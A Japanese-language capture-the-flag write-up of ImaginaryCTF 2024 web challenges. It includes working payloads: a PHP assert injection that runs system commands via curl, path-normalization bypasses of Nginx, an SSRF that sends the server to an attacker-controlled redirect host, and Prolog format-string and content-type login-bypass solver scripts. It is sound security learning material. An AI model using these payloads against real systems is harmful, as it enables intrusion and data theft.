



# ImaginaryCTF 2024 Writeup & Upsolve

ImaginaryCTF 2024（<https://ctftime.org/event/2396>）に参加しました。  
金, 19 7月 2024, 19:00 UTC — 日, 21 7月 2024, 19:00 UTC

チーム0nePaddingで参加して、89位（1457チーム中）でした。  
時間はあまり取れなかったですが、WEBはもう一問ぐらい解きたかったです。  
解けなかった問題は後で追記予定です。



<!-- @import "[TOC]" {cmd="toc" depthFrom=2 depthTo=3 orderedList=false} -->

<!-- code_chunk_output -->

- [WEB（解いた問題）](#web解いた問題)
  - [journal](#journal)
  - [crystals](#crystals)
  - [The Amazing Race](#the-amazing-race)
  - [readme](#readme)
  - [readme2](#readme2)
- [WEB（解けなかった問題）](#web解けなかった問題)
  - [Pwning en Logique](#pwning-en-logique)

<!-- /code_chunk_output -->

## WEB（解いた問題）

### journal

100pts - 518 solves

- index.php

```php
<?php

echo "<p>Welcome to my journal app!</p>";
echo "<p><a href=/?file=file1.txt>file1.txt</a></p>";
echo "<p><a href=/?file=file2.txt>file2.txt</a></p>";
echo "<p><a href=/?file=file3.txt>file3.txt</a></p>";
echo "<p><a href=/?file=file4.txt>file4.txt</a></p>";
echo "<p><a href=/?file=file5.txt>file5.txt</a></p>";
echo "<p>";

if (isset($_GET['file'])) {
  $file = $_GET['file'];
  $filepath = './files/' . $file;

  assert("strpos('$file', '..') === false") or die("Invalid file!");

  if (file_exists($filepath)) {
    include($filepath);
  } else {
    echo 'File not found!';
  }
}

echo "</p>";
```

最初はパストラバーサルかと思いましたが、`assert("strpos('$file', '..') === false") or die("Invalid file!");`で引っかかるので、違いそうです。  

ただし、fileパラメータに`'`を含めると、スタックトレースが出力されるため何かができそうです。  
`'`で構文を崩せるため、systemコマンド等のスクリプトが実行できるようです。

また、今回の問題は、以下のサイトの例と同じような実装のため、そのままペイロードが使えそうでした。

<https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-via-phps-assert>

少しだけペイロードを調整すると、フラグを取得できました。

```sh
# 'or die(system("ls /")) or'
curl -G http://journal.chal.imaginaryctf.org/ --data-urlencode "file='or die(system(\"ls /\")) or'"

# 'or die(system("cat /flag- .txt")) or'
curl -G http://journal.chal.imaginaryctf.org/ --data-urlencode "file='or die(system(\"cat /flag-cARdaInFg6dD10uWQQgm.txt\")) or'"
```

### crystals

100pts - 145 solves

docker-compose.ymlを見ると、hostnameにフラグが入っているようです。

- Dockerfile

```dockerfile
version: '3.3'
services:
  deployment:
    hostname: $FLAG
    build: .
    ports:
      - 10001:80
```

言語はRubyで書かれており、ソースコードを見る限りでは特に何かができそうな気配はありません。

- app.rb

```ruby
require 'sinatra'

# Route for the index page
get '/' do
  erb :index
end
```

フラグがhostnameに入っているということは、何らかのエラーを発生させれば出力できるのではと推測。  
どこかのCTFの解法でクエリパラメータの上限に達したときのエラーを利用するものがあったはずなので、それを試してみました。

試しに1000パラメータぐらいで確認してみたところ、414エラーにフラグがついて返ってきました。

```sh
$ curl "http://crystals.chal.imaginaryctf.org/?a=1`printf '&a=%.0s' {0..1000}`"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0//EN">
<HTML>
  <HEAD><TITLE>Request-URI Too Large</TITLE></HEAD>
  <BODY>
    <H1>Request-URI Too Large</H1>
    WEBrick::HTTPStatus::RequestURITooLarge
    <HR>
    <ADDRESS>
     WEBrick/1.8.1 (Ruby/3.0.2/2021-07-07) at
     ictf{seems_like_you_broke_it_pretty_bad_76a87694}:4567
    </ADDRESS>
  </BODY>
</HTML>
```

### The Amazing Race

100pts - 100 solves

問題名から、おそらくレースコンディションを使った問題と推測。  
添付ファイルにはソースコードがありませんでしたが、サイトにアクセスすると一部ソースコードが見れるようになってました。

迷路が生成され、自身（`@`）をゴール（`F`）に移動させることができればフラグがもらえるようです。



ただし、ゴール部分が壁（`#`）で覆われているので正攻法ではゴールできなさそうです。  

解法としては、推測通りレースコンディションの問題があり、同時に複数のリクエストを送ることで壁チェックを抜けることができます。

後は、ゴールに到達するまで繰り返すだけです。



すり抜けると壁（`#`）がなくなったり、自身（`@`）が増えたりしましたが、特に問題なくフラグが取得できました。

### readme

100pts - 978 solves

readme2をやるので、readmeも確認します。  
調べるのを楽にするため、diffコマンドでreadme2との差分を確認しました。

```sh
$ diff readme readme2
diff readme/Dockerfile readme2/Dockerfile
1,6c1
< FROM node:20-bookworm-slim
< 
< RUN apt-get update \
<     && apt-get install -y nginx tini \
<     && apt-get clean \
<     && rm -rf /var/lib/apt/lists/* /tmp/* /var/tmp/*
---
> FROM oven/bun:1.1.20-slim
9,15c4
< COPY package.json yarn.lock ./
< RUN yarn install --frozen-lockfile
< COPY src ./src
< COPY public ./public
< 
< COPY default.conf /etc/nginx/sites-available/default
< COPY start.sh /start.sh
---
> COPY app.js ./
17c6
< ENV FLAG="ictf{path_normalization_to_the_rescue}"
---
> ENV FLAG="ictf{fake_flag}"
19,20c8
< ENTRYPOINT ["/usr/bin/tini", "--"]
< CMD ["/start.sh"]
---
> CMD ["bun", "run", "app.js"]
Only in readme2: app.js
Only in readme: default.conf
Only in readme: docker-compose.yml
Only in readme: package.json
Only in readme: public
Only in readme: src
Only in readme: start.sh
Only in readme: yarn.lock
```

作問ミスかわかりませんが、環境変数に設定されているFLAGがfakeではなさそうです。  
（というかそのままフラグだったようです。）

どうせならということで、正攻法も確認してみます。  
関係ありそうなソースコードを見ていきます。

- app.js

```js
const express = require('express')
const path = require('path')

const app = express()
app.use(express.static(path.join(__dirname, '../public')))
app.listen(8000)
```

- start.sh

```sh
#!/bin/sh
echo "${FLAG:-not_flag}" > /app/public/flag.txt
nginx &
node src/app.js
```

どうやら公開フォルダ（`/public`）内にflag.txtが作成されているようです。  
一見`http://readme.chal.imaginaryctf.org/flag.txt`にそのままアクセスすればよいように見えますが、そのままだと`404`エラーが発生します。

Nginxの設定ファイルに以下が記述されています。

- default.conf

```conf
server {
    listen       80 default_server;
    listen  [::]:80;
    root /app/public;

    location / {
        if (-f $request_filename) {
            return 404;
        }
        proxy_pass http://localhost:8000;
    }
}
```

ファイル名が指定された場合は、全て`404`エラーになるようです。  
そのため、NginxとNode.js（Express）で処理が異なる文字列があれば回避できそうだと考えました。

いろいろ調べてみると、以下の記事が見つかりました。  
パスの正規化によって、Nginxでは削除されないけれどExpressで処理される時に削除される文字があるようです。

<https://book.hacktricks.xyz/pentesting-web/proxy-waf-protections-bypass#nodejs-express>

Nginxのバージョンは`1.22.1`でしたが、`\xA0`が使えることがわかりました。  
後は実行するとフラグが取得できます。

```sh
curl $'http://readme.chal.imaginaryctf.org/flag.txt\xa0'
```

- 別解

```sh
curl --path-as-is 'http://readme.chal.imaginaryctf.org/flag.txt/.'
```

### readme2

249pts - 56 solves

flag.txtを取得する問題のようで、おそらくreadmeと同様にパスの正規化を駆使する問題かと思われます。

- app.js

```js
const flag = process.env.FLAG || 'ictf{this_is_a_fake_flag}'

Bun.serve({
        async fetch(req) {
                const url = new URL(req.url)
                if (url.pathname === '/') return new Response('Hello, World!')
                if (url.pathname.startsWith('/flag.txt')) return new Response(flag)
                return new Response(`404 Not Found: ${url.pathname}`, { status: 404 })
        },
        port: 3000
})
Bun.serve({
        async fetch(req) {
                if (req.url.includes('flag')) return new Response('Nope', { status: 403 })
                const headerContainsFlag = [...req.headers.entries()].some(([k, v]) => k.includes('flag') || v.includes('flag'))
                if (headerContainsFlag) return new Response('Nope', { status: 403 })
                const url = new URL(req.url)
                if (url.href.includes('flag')) return new Response('Nope', { status: 403 })
                return fetch(new URL(url.pathname + url.search, 'http://localhost:3000/'), {
                        method: req.method,
                        headers: req.headers,
                        body: req.body
                })
        },
        port: 4000 // only this port are exposed to the public
})
```

- Dockerfile

```dockerfile
FROM oven/bun:1.1.20-slim

WORKDIR /app
COPY app.js ./

ENV FLAG="ictf{fake_flag}"

CMD ["bun", "run", "app.js"]
```

Bunが使われています。  
また、外部公開されている4000番ポートと非公開の3000番ポートでそれそれサーバが動いているようなので、SSRFを使う問題のようです。

パスの中に`flag`という文字列が含まれていると`403`エラーになるので何らかの方法で回避する必要があります。  
毎回`new URL(req.url)`をやっているので、そこがポイントになると思われますが、結局この回避方法は分かりませんでした。  
（ちなみに、`Flag.txt`等は問題なく通るものの、3000番のサーバの方で`404`エラーになるのでダメでした。）

しばらく考えていたところ、以下の処理で`url.pathname`が`//`から始まれば外部サーバにリクエストできそうだと気づきました。

```js
new URL(url.pathname + url.search, 'http://localhost:3000/')
```

例えば、`new URL('//attack.example.com', 'http://localhost:3000/')`を実行すると、`http://attack.example.com/`と解釈されるためです。  
`url.pashname`を`//`から始まるようにするのは簡単で、`http://example.com//test`のようにすれば良いです。

```js
> new URL('http://example.com//test')
URL {
  href: 'http://example.com//test',
  origin: 'http://example.com',
  protocol: 'http:',
  username: '',
  password: '',
  host: 'example.com',
  hostname: 'example.com',
  port: '',
  pathname: '//test',
  search: '',
  searchParams: URLSearchParams {},
  hash: '' }
```

試しに、`http://readme2.chal.imaginaryctf.org//<attackerサイト>`でアクセスしてみると、ちゃんと攻撃者サーバにアクセスが来ました。  
あとは、攻撃者のサーバから`http://localhost:3000/flag.txt`にリダイレクトさせてあげれば良さそうです。

- a.php（攻撃者サーバに置くリダイレクト用スクリプト）

```php
<?php
header("Location: http://localhost:3000/flag.txt");
die();
?>
```

ngrokを使って攻撃者サーバを公開して、リクエストを送ってみます。  
最初はngrokのリダイレクトがうまくいかなかったのですが、Hostヘッダを調整してみると、リダイレクトさせることができてフラグを取得できました。  

```sh
$ curl http://readme2.chal.imaginaryctf.org//<attackerサイト>/a.php -H "Host: <attackerサイト>"
ictf{just_a_funny_bug_in_bun_http_handling}
```

3000番ポートのサーバへのリクエストにリクエストヘッダがそのまま反映されるのが救いでした。  
フラグメッセージ的に想定解法ではなさそうな気がします。

- 別解

```sh
printf 'GET /.. HTTP/1.0\r\nHost: fakehost/fla\tg.txt\r\n\r\n' | nc localhost 80
```

## WEB（解けなかった問題）

### Pwning en Logique

384 pts - 38 solves

admin権限でログイン後、`/flag`にアクセスできればフラグがもらえるようです。  
guest権限として、`guest:guest`でログインすることはできますが、`/frag`にはアクセスできません。  

言語はPerlで書かれており、ソースコードが提供されていため確認します。  
今回の問題で気になるのは以下の箇所です。

- server\.pl（抜粋）

```perl
greet(Request) :-
    http_session_data(username(Username)),
    http_parameters(Request, [
        greeting(Greeting, [default('Hello')]),
        format(Format, [default('~w, ~w!')])
    ]),
    content_type,
    format(Format, [Greeting, Username]).
```

`format`パラメータによって、形式を指定できるようになっています。  
<https://www.swi-prolog.org/pldoc/doc_for?object=format/2>を参考にすると、`~@`を指定することで、関数を呼び出すことができるようです。

今回の場合は以下のようにすると、関数を実行できます。

```text
/greet?greeting=<関数名>&format=~@,~w
```

- solver.py

```py
#!/usr/bin/env python3
import requests

URL = "http://localhost:8888"

s = requests.session()
r = s.post(f"{URL}/login", data={
  "username": "guest",
  "password": "guest"
})
r = s.get(f"{URL}/greet", params={
    "greeting": "print_flag",
    "format": "~@, ~w"
})
print(r.text)
```

関数名に`listing`を指定すると、プログラムとpretty print句を一覧表示できるため、それを使う方法もあるようです。
<https://www.swi-prolog.org/pldoc/man?section=listing>

- 別解

Content-typeを`application/x-prolog`にした解法もあるようです。

```py
#!/usr/bin/env python3
import requests

URL = "http://localhost:8888"

s = requests.session()
r = s.post(
  f"{URL}/login",
  data="[username=admin, password=A].",
  headers={
      "Content-type": "application/x-prolog"
  })
r = s.get(f"{URL}/flag")
print(r.text)
```
